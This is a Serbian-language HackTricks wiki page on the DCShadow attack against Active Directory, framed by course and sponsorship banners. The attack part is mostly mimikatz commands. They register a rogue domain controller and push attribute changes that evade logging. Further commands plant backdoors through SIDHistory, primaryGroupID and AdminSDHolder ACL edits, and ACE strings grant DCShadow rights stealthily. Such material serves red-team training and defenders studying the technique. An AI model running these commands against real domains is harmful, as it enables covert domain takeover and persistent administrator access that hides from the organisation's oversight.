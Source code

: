 {% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}


# DCShadow

Registruje **novi Kontroler Domena** u AD i koristi ga da **gura atribute** (SIDHistory, SPNs...) na specificiranim objektima **bez** ostavljanja bilo kakvih **logova** u vezi sa **modifikacijama**. **Potrebne su DA** privilegije i morate biti unutar **root domena**.\
Imajte na umu da ako koristite pogrešne podatke, pojaviće se prilično ružni logovi.

Da biste izvršili napad, potrebne su vam 2 instancije mimikatz. Jedna od njih će pokrenuti RPC servere sa SYSTEM privilegijama (ovde morate naznačiti promene koje želite da izvršite), a druga instanca će se koristiti za guranja vrednosti:

{% code title="mimikatz1 (RPC servers)" %}
```bash
!+
!processtoken
lsadump::dcshadow /object:username /attribute:Description /value="My new description"
```
{% endcode %}

{% code title="mimikatz2 (push) - Potrebna DA ili slično" %}
```bash
lsadump::dcshadow /push
```
{% endcode %}

Obratite pažnju da **`elevate::token`** neće raditi u `mimikatz1` sesiji jer je to podiglo privilegije niti, ali nam je potrebno da podignemo **privilegiju procesa**.\
Takođe možete odabrati i "LDAP" objekat: `/object:CN=Administrator,CN=Users,DC=JEFFLAB,DC=local`

Možete primeniti promene iz DA ili od korisnika sa ovim minimalnim dozvolama:

* U **objektu domena**:
* _DS-Install-Replica_ (Dodaj/Ukloni Repliku u Domen)
* _DS-Replication-Manage-Topology_ (Upravljanje Replikacionom Topologijom)
* _DS-Replication-Synchronize_ (Replikaciona Sinhronizacija)
* **Objekat Lokacija** (i njeni podobjekti) u **Konfiguracionom kontejneru**:
* _CreateChild and DeleteChild_
* Objekat **računara koji je registrovan kao DC**:
* _WriteProperty_ (Ne Write)
* **Ciljni objekat**:
* _WriteProperty_ (Ne Write)

Možete koristiti [**Set-DCShadowPermissions**](https://github.com/samratashok/nishang/blob/master/ActiveDirectory/Set-DCShadowPermissions.ps1) da dodelite ove privilegije korisniku bez privilegija (obratite pažnju da će ovo ostaviti neke logove). Ovo je mnogo restriktivnije od imanja DA privilegija.\
Na primer: `Set-DCShadowPermissions -FakeDC mcorp-student1 SAMAccountName root1user -Username student1 -Verbose`  To znači da korisničko ime _**student1**_ kada se prijavi na mašinu _**mcorp-student1**_ ima DCShadow dozvole nad objektom _**root1user**_.

## Korišćenje DCShadow za kreiranje zadnjih vrata

{% code title="Postavi Enterprise Admins u SIDHistory za korisnika" %}
```bash
lsadump::dcshadow /object:student1 /attribute:SIDHistory /value:S-1-521-280534878-1496970234-700767426-519
```
{% endcode %}

{% code title="Promena PrimaryGroupID (dodavanje korisnika kao člana Domain Administrators)" %}
```bash
lsadump::dcshadow /object:student1 /attribute:primaryGroupID /value:519
```
{% endcode %}

{% code title="Izmena ntSecurityDescriptor-a AdminSDHolder-a (dodeljivanje potpunih prava korisniku)" %}
```bash
#First, get the ACE of an admin already in the Security Descriptor of AdminSDHolder: SY, BA, DA or -519
(New-Object System.DirectoryServices.DirectoryEntry("LDAP://CN=Admin SDHolder,CN=System,DC=moneycorp,DC=local")).psbase.Objec tSecurity.sddl
#Second, add to the ACE permissions to your user and push it using DCShadow
lsadump::dcshadow /object:CN=AdminSDHolder,CN=System,DC=moneycorp,DC=local /attribute:ntSecurityDescriptor /value:<whole modified ACL>
```
{% endcode %}

## Shadowception - Dodelite DCShadow dozvole koristeći DCShadow (bez izmenjenih logova dozvola)

Moramo dodati sledeće ACE-ove sa SID-om našeg korisnika na kraju:

* Na objektu domena:
* `(OA;;CR;1131f6ac-9c07-11d1-f79f-00c04fc2dcd2;;UserSID)`
* `(OA;;CR;9923a32a-3607-11d2-b9be-0000f87a36b2;;UserSID)`
* `(OA;;CR;1131f6ab-9c07-11d1-f79f-00c04fc2dcd2;;UserSID)`
* Na objektu napadača: `(A;;WP;;;UserSID)`
* Na objektu ciljanog korisnika: `(A;;WP;;;UserSID)`
* Na objektu Lokacije u Konfiguracionom kontejneru: `(A;CI;CCDC;;;UserSID)`

Da biste dobili trenutni ACE objekta: `(New-Object System.DirectoryServices.DirectoryEntry("LDAP://DC=moneycorp,DC=loca l")).psbase.ObjectSecurity.sddl`

Primetite da u ovom slučaju treba da napravite **several changes,** ne samo jedan. Dakle, u **mimikatz1 sesiji** (RPC server) koristite parametar **`/stack` sa svakom izmenom** koju želite da napravite. Na ovaj način, biće vam potrebna samo **`/push`** jednom da izvršite sve zadržane promene na lažnom serveru.

[**Više informacija o DCShadow na ired.team.**](https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/t1207-creating-rogue-domain-controllers-with-dcshadow)

{% hint style="success" %}
Učite i vežbajte AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Učite i vežbajte GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Podrška HackTricks</summary>

* Proverite [**planove pretplate**](https://github.com/sponsors/carlospolop)!
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili **pratite** nas na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podelite hakerske trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
{% endhint %}
